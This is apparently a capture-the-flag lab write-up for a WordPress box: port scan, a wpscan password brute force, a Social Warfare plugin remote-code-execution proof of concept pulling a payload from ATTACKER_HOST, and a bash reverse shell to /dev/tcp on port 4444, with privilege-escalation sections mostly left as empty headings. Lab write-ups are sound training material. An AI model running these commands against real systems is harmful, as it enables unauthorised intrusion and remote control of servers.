

# NetworkEnumeration

```bash
192.168.156.78
PORT   STATE SERVICE
22/tcp open  ssh                   
80/tcp open  http
```

# Port Enumeration

This is a wordpress.


## Plugin


## Users


## Brute Force

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/sosimple] 
└─$ wpscan --url "http://192.168.156.78/wordpress/" --usernames max --passwords /usr/share/wordlists/rockyou.txt
```

Get user `max` password.


## RCE Exploit

[Social Warfare <= 3.5.2 - Unauthenticated Remote Code Execution (RCE)](https://wpscan.com/vulnerability/9259)

### Proof of Concept

```
1. Create payload file and host it on a location accessible by a targeted website. Payload content : "<pre>system('cat /etc/passwd')</pre>"

2. Visit http://WEBSITE/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://ATTACKER_HOST/payload.txt

3. Content of /etc/passwd will be returned 
```

### Create payload locally


Setting up the http server, then access it on wordpress.


## Change the payload

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/sosimple]
└─$ cat payload.txt               
<pre>system("bash -c '/bin/bash -i >& /dev/tcp/192.168.45.184/4444' 0>&1")</pre>
```

Then get shell.


# PE

## Active ports


## Users



## Useful software


## Wordpress Files


## max ssh_key


## sudo -l


User max can running `/usr/sbin/service` as user `steven`

Check on [GTFobins](https://gtfobins.github.io/gtfobins/service/)


## Login to steven


### Check sudo -l


### Create the `server-health` file


### Get root


